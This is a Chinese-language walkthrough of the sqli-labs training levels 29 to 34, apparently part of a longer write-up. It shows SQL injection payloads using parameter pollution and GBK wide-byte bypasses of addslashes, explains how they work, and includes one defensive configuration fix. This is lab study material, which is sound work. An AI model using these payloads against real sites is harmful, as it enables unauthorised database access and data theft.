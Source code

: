 这题一旦发现是参数污染，即入无人之境，毫无过滤。

```sql
?id=2&id=0' union select 1,2,3%23
```

##### Less-30 

与 29 同，只是拼接了一个 `“”`。

##### Less-31 

在前面的基础上又加了一个 `()`。



---

Less-32,33,34,35,36,37六关全部是针对 ` ’` 和  `\` 的过滤，可用宽字节绕过

原理：`mysql` 在使用 `gbk` 编码的时候，会将两个字符当做一个汉字。例如 `%aa%5c` ，前一个 `ASCII` 码超过 `128` 才会达到汉字的范围。

---



##### Less-32 Bypass custom filter adding slashes to dangerous chars

干掉 slash 有如下方法

1、`%df`  吃掉 `\`   具体的原因是 `urlencode(‘)  = %5c%27`，我们在 `%5c%27` 前面添加 `%df`，形成 `%df%5c%27`，而上面提到的 mysql 在 GBK 编码方式的时候会将两个字节当做一个汉字，此时 `%df%5c` 就是一个汉字，`%27` 则作为一个单独的符号在外面，同时也就达到了我们的目的。
2、将 `\’` 中的 `\` 过滤掉，例如可以构造 `%**%5c%5c%27` 的情况，后面的 `%5c` 会被前面的 `%5c` 给注释掉。

```sql
?id=0%df' union select 1,2,3%23
```

那第二种方法？

##### Less-33 Bypass addslashes()

`Addslashes()` 函数依旧可以利用 `%df` 进行绕过。

```
下列字符将被加上 \ 进行转义
单引号（'）		双引号（"）		反斜杠（\）		NULL
```

**Notice：**使用 `addslashes()` ，我们需要将 `mysql_query` 设置为 `binary` 的方式，才能防御此漏洞。

```php
mysql_query(“SET character_set_connection=gbk,character_set_result=gbk,character_set_client=binary”,$conn);
```

##### Less-34

此处是 `post`，将 `utf-8` 转换为 `utf-16` 或 `utf-32`，例如将 ` ‘`  转为 `utf-16`为  �'  

```
uname=�' or 1#&passwd=admin&submit=Submit
```

